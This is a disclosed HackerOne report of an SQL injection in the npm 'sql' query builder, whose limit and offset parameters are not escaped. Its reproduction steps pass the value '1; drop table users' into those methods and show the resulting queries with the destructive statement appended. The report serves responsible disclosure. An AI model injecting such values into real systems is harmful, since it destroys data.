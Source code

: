 # `sql` does not properly escape parameters when building SQL queries, resulting in potential SQLi

## Report Details
- **Report ID**: 319465
- **URL**: https://hackerone.com/reports/319465
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-25T04:52:58.183Z
- **Disclosed**: 2018-05-12T09:03:10.844Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an SQLi in `sql`.

It allows to insert potentially user-controlled content into the queries without proper escaping, in cases where that is not verified additionally in the applications that are using `sql` library.

# Module

**module name:** sql
**version:** 0.78.0
**npm page:** `https://www.npmjs.com/package/sql`

## Module Description

> sql string builder for node - supports PostgreSQL, mysql, Microsoft SQL Server, Oracle and sqlite dialects.

## Module Stats

Stats
345 downloads in the last day
6 659 downloads in the last week
24 915 downloads in the last month

~298980 estimated downloads per year

# Vulnerability

## Vulnerability Description

`sql` module constructs SQL queries from structured input, and the problem is that it doesn't do proper escaping of limit/offset parameters, so in setups where those are user-controlled (e.g. received over network) without additional validation that can cause an SQL injection vulnerability.

## Steps To Reproduce:

```js
var sql = require('sql');
var user = sql.define({
  name: 'users',
  columns: ['id', 'name', 'email', 'lastLogin']
});
console.log(user.select(user.star()).from(user).limit('1; drop table users').toQuery().text);
console.log(user.select(user.star()).from(user).offset('1; drop table users').toQuery().text);
```

Output:
```
SELECT "users".* FROM "users" LIMIT 1; drop table users
SELECT "users".* FROM "users" OFFSET 1; drop table users
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- Arch Linux Current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N 
- I opened an issue in the related repository: N

## Impact

SQL injection.
See https://www.owasp.org/index.php/SQL_Injection

The hacker selected the **SQL Injection** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**Verified**
Yes

**What exploitation technique did you utilize?**
Classic / In-Band

**Please describe the results of your verification attempt.**
Observed constructed SQL queries.



## Attachments
No attachments
